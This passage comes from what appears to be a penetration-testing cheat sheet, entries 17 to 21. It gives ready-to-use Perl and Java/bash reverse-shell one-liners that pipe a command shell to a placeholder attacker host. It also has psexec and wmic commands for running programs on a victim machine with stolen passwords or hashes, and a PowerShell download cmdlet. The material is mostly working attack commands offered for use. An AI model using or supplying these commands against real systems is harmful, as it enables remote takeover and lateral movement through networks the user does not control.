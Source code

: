 https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 17. perl windows reverse shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[me]:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
**- reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 18. Java reverse shell - replace ; with newline
```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
```
**- linux,reverse shells,java**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 19. windows psexec : \\127.0.0.1\c$\cmd.exe -p can be pass OR hash
```
psexec /accepteula \\[victim] -u [domain]\[user] -p [password] -c -f \\[victim]\[share\[file]
```
**- pivoting,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx
__________
### 20. execute command on remote host from remote smb share
```
wmic /node:[victim] /user:[domain]\[user] /password:[password] process call create "\\[host]\[share]\[exe]"
```
**- smb,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 21. powershell wget
```
invoke-webrequest
```
**- files,Windows,powershell**
#### References:
